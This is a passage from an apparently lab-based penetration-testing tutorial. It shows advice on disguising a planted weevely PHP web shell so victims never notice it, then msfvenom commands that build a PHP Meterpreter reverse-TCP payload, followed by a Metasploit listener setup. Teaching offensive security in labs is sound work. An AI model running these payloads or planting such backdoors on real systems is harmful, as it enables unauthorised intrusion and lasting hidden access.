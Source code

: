 ```systemctl start dockerdocker run --rm -it -d -p 3000:80 cybrcom/commix-testbed```

We now have shell access to the server/container, and if this were not a lab environment, we could keep this access for as long as our victims don’t realize the backdoor is there.

Considering that this weevely.php file is just one of thousands of files on this system, depending on how sophisticated your target is, it could be that they never find this file. You could even change this to be a filename that blends in even more. For example, there are a bunch of files in here that start with ```classic_```, so you could name yours ```classic_advanced_auth.php``` and it would blend right in.

Alright, enough of me giving you bad ideas, let’s move on to our next tool and technique.

## Creating and exploiting backdoors with Meterpreter

For this approach, we’re going to use MSFvenom to generate our payload. MSFvenom is a combination of Msfpayload and MSfencode, and it replaced both of those tools back in 2015. So now, we can do this from one single tool. While we won’t spend much time on this tool and how it works, it’s definitely something to research further if you are interested.

### Generating our payload with MSFvenom
```msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e php/base64 -f raw > ~/Documents/msfvenom.php```

- ```-p``` – the payload to use, in this case ```php/meterpreter/reverse_tcp```
- ```LHOST``` – represents the localhost IP to receive a back connection, which we can check with sudo ifconfig, looking at ```eth0```, which is ```10.0.2.15```
- ```LPORT``` – represents the local port on which the connection listens for the victim, which we set to ```4444```

If the target were on a different network, we’d have to use a different LHOST and LPORT and potentially do port forwarding, but that’s not the case here.

- ```-e``` represents the encoder to use, set to ```php/base64```
- ```-f``` is for format, which we set to ```raw```
- ```> ~/Documents/msfvenom.php``` – which outputs our payload file

Add ```<?php ?>``` in the file:

```
vim msfvenom.php
gg #shortcut to go to beginning of file
i #insert mode
esc #escape insert mode
$ #shortcut to go to end of line
a #shortcut to move cursor after current character
i
?>
esc:x #write changes and exit
```

### Starting our listener with Metasploit Meterpreter
Next, we’ll use metasploit to start our listener:

```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
exploit
```

At which point you should see:

```[*] Started reverse TCP handler on 10.0.2.15:4444 ```
```